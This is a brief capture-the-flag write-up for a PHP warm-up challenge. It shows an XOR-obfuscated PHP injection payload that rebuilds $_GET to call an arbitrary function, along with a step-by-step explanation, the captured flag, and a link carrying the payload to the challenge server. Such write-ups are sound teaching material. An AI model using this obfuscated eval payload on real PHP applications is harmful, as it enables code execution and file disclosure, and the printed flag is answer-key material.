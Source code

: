 **Challenge:** http://69.90.132.196:5003/?view-source

**Payload:** ``` $_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=highlight_file&__=flag.php```

**Explaining:**
  - ```$_="`{{{"^"?<>/";``` | Result of xor operation: ```$_ = "_GET"```
  - ```${$_}[_](${$_}[__]);``` | Function call: ```$_GET[_]($_GET[__])```
  - Setting the parameters, eval function will run: ```eval(highlight_file('flag.php'))```

**Flag:** ASIS{w4rm_up_y0ur_br4in}

**[GET THE FLAG](http://69.90.132.196:5003/?warmup=$_=%22`{{{%22^%22?%3C%3E/%22;${$_}[_](${$_}[__]);&_=highlight_file&__=flag.php)**

